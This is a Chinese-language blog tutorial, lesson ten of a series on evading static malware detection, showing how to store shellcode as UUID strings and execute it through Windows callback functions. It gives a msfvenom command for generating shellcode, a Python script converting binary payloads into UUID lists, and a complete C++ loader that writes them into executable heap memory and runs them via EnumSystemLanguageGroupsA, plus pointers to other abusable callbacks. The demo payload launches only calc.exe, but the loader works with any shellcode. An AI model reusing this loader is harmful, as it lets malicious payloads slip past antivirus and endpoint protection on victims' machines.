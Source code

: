 ```yaml
---
date: "2021-02-08T00:00:00Z"
description: 本节课，使用UUID的方式存储Shellcode，再介绍一些CALL BACK函数的特性来加载Shellcode。
title: 静态恶意代码逃逸（第十课）
url: /archivers/2021-02-08/1
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 UUID

通用唯一标识符（universally unique identifier, UUID）是一个128位的用于在计算机系统中以识别信息的数目。在Windows中也有使用GUID来标识唯一对象。 — 来源：[维基百科](https://en.wikipedia.org/wiki/Universally_unique_identifier)

关于Windows中的GUID也等同于UUID，先看一下结构：

```c++
typedef struct _GUID {
  unsigned long  Data1; // 4字节
  unsigned short Data2; // 2字节
  unsigned short Data3; // 2字节
  unsigned char  Data4[8]; // 8字节
} GUID;
```

总和一共16字节，16*8 = 128位。


## 0x02 与UUID相关的Windows API


```c++
RPC_STATUS UuidFromString(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

功能：将字符串UUID转换为UUID结构。

```c++
RPC_STATUS UuidCreate(
  UUID *Uuid
);
```

功能：创建UUID结构。

```c++
int UuidEqual(
  UUID       *Uuid1,
  UUID       *Uuid2,
  RPC_STATUS *Status
);
```

功能：判断两个UUID是否相等。

通过URL查看：https://docs.microsoft.com/en-us/windows/win32/rpc/rpcdce/ns-rpcdce-uuid

UUID 代表了 -> `typedef GUID UUID;`

## 0x03 UUID 测试

### 生成Shellcode

```
./msfvenom -p windows/exec CMD=calc.exe -b '\xfc\xe8' -f raw -o /tmp/shellcode.bin
```

### Bin2UUID

生成脚本：

```py
from uuid import UUID
import os
import sys

# Usage: python3 binToUUIDs.py shellcode.bin [--print]

print("""
  ____  _    _______    _    _ _    _ _____ _____       
 |  _ \(_)  |__   __|  | |  | | |  | |_   _|  __ \      
 | |_) |_ _ __ | | ___ | |  | | |  | | | | | |  | |___  
 |  _ <| | '_ \| |/ _ \| |  | | |  | | | | | |  | / __| 
 | |_) | | | | | | (_) | |__| | |__| |_| |_| |__| \__ \ 
 |____/|_|_| |_|_|\___/ \____/ \____/|_____|_____/|___/
\n""")

with open(sys.argv[1], "rb") as f:
    bin = f.read()

if len(sys.argv) > 2 and sys.argv[2] == "--print":
    outputMapping = True
else:
    outputMapping = False

offset = 0

print("Length of shellcode: {} bytes\n".format(len(bin)))

out = ""

while(offset < len(bin)):
    countOfBytesToConvert = len(bin[offset:])
    if countOfBytesToConvert < 16:
        ZerosToAdd = 16 - countOfBytesToConvert
        byteString = bin[offset:] + (b'\x00'* ZerosToAdd)
        uuid = UUID(bytes_le=byteString)
    else:
        byteString = bin[offset:offset+16]
        uuid = UUID(bytes_le=byteString)
    offset+=16

    out += "\"{}\",\n".format(uuid)
    
    if outputMapping:
        print("{} -> {}".format(byteString, uuid))

with open(sys.argv[1] + "UUIDs", "w") as f:
    f.write(out)

print("Outputted to: {}".format(sys.argv[1] + "UUIDs"))
```

![2021-02-08-20-41-08](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/3922558744d8fb3071d39e5f8343c6ff.png)

### 生成测试样本

```c++
#include <Windows.h>
#include <rpc.h>
#pragma comment(lib,"Rpcrt4.lib")

const char * buf[] = {
	"4baf01bd-dbdd-d9de-7424-f45a33c9b131",
	"83136a31-04c2-6a03-0e4d-be21f81341da",
	"3fcb73f8-b3c9-34af-7904-bb1975efe989",
	"bd259d0e-28a7-f010-3800-6093ba5bb573",
	"72c89383-cec4-2621-9d85-94d7aad02453",
	"802cf5e0-f4b0-171d-cbae-bd9918dbf781",
	"394ee67d-9cb5-eb50-845d-fed229acfe13",
	"6a754f8d-f2ee-a98e-8d28-1a2a35babc96",
	"5c5a6fc4-c4ca-3a28-cedb-fd30ea500097",
	"3327227b-f020-6246-8c57-76746f07d2fe",
	"5d6f5c9d-a3cb-dbfd-b9a4-fde3edcccc68",
	"bad08a62-64c7-e79b-61ed-4272307075a8",
	"59f68d76-6a06-2be6-0336-a0c0792745e7",
	"844c482e-dab1-650c-545b-b67900000000"
};


int main(int argc, char* argv[]) {

	int dwNum = sizeof(buf) / sizeof(buf[0]);

	HANDLE hMemory = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);
	if (hMemory == NULL) {
		return -1;
	}
	PVOID pMemory = HeapAlloc(hMemory, 0, 1024);
	
	DWORD_PTR CodePtr = (DWORD_PTR)pMemory;

	for (size_t i = 0; i < dwNum; i++)
	{
		if (CodePtr == NULL) {
			break;
		}
		RPC_STATUS	status = UuidFromStringA(RPC_CSTR(buf[i]), (UUID*)CodePtr);
		if (status != RPC_S_OK) {

			return -1;
		}
		CodePtr += 16;
	}

	if (pMemory == NULL) {
		return -1;
	}
	if (EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)pMemory, LGRPID_INSTALLED, NULL) == FALSE) {
		// 加载成功
		return 0;
	}
	return 0;
}
```


![2021-02-08-20-52-53](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b3c7ed47da69c8709588b47e44476eb5.png)

## 0x04 Windows CALL BACK函数

CALL BACK意为回调，是定义一个函数，由系统某个事件或用户的动作自动触发的函数，因此调用者不是用户。

通过MSDN直接搜索Callback/Proc关键字就能发现一些回调函数：

![2021-02-08-20-59-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/40db0428aca1e6e105c2e7550230cf8d.png)

例如：

```c++

HINTERNET hOpen;                       // Root HINTERNET handle
INTERNET_STATUS_CALLBACK iscCallback;  // Holds the callback function

// Create the root HINTERNET handle.
hOpen = InternetOpen( TEXT("Test Application"),
                      INTERNET_OPEN_TYPE_PRECONFIG,
                      NULL, NULL, 0);

// Set the status callback function.
iscCallback = InternetSetStatusCallback( hOpen, (INTERNET_STATUS_CALLBACK)CallMaster );

void CALLBACK CallMaster( HINTERNET,
    DWORD_PTR,
    DWORD,
    LPVOID,
    DWORD
);

```

如果CallMaster指向的是一块可执行属性的内存，那么就可以加载Shellcode。

这篇文章中介绍了如何发现其他带有回调的[Windows API](http://ropgadget.com/posts/abusing_win_functions.html)。


## 参考

- http://www.cn0sec.cn/index.php/archives/337/
- http://ropgadget.com/posts/abusing_win_functions.html